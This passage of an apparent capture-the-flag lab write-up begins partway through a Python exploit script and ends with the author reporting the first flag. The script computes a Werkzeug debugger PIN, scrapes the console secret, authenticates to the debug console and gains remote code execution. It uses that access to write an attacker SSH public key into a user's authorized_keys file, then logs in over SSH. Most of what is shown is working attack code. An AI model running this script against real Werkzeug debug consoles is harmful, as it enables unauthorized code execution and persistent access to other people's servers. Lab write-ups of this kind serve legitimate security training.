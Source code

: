 ```python3
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

print('[+] generating Werkzeug PIN')

secret = f'http://{ip}:8000/console'
s = requests.get(secret)
html_response = s.text
soup = BeautifulSoup(html_response, 'html.parser')
script_tag = soup.find_all('script')
script_content = script_tag[1].string
secret_start = script_content.find('SECRET = "')
secret_end = script_content.find('";', secret_start)
secret_value = script_content[secret_start + len('SECRET = "'):secret_end]

print('[+] grabbing Werkzeug secret')

console_url = f'http://{ip}:8000/console?__debugger__=yes&cmd=pinauth&pin={rv}&s={secret_value}'

try:
        c = requests.get(console_url)
        headers = c.headers
        cookie = headers['Set-Cookie'][:-35]
        cookie_key = cookie.split('=')[0]
        cookie_value = cookie.split('=')[1]
        print('[+] sending RCE')
        foothold = f'http://{ip}:8000/console?&__debugger__=yes&cmd=with%20open(%27/home/mcskidy/.ssh/authorized_keys%27,%27w%27)%20as%20fp:fp.write(%27{urllib.parse.quote(public_key)}%27)&frm=0&s={secret_value}'
        cookie_to_auth = {cookie_key:cookie_value}
        cookie_to_auth = {cookie_key:cookie_value}
        requests.get(foothold, cookies=cookie_to_auth)
        os.system(f'ssh -i sshkey -o StrictHostKeyChecking=no mcskidy@{ip}')
except:
        print('failed to generate correct PIN, reset machine')
```
After we run the script with the IP of the generated machine, we easily get an SSH connection to the mcskidy user and get the first flag:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292663202-faaf3dd2-92df-4437-afd2-76b7a4262810.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T092238Z&X-Amz-Expires=300&X-Amz-Signature=1c406c33f66d15ae8954ac2130716b2e80788f820880612638f267de8f523273&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)
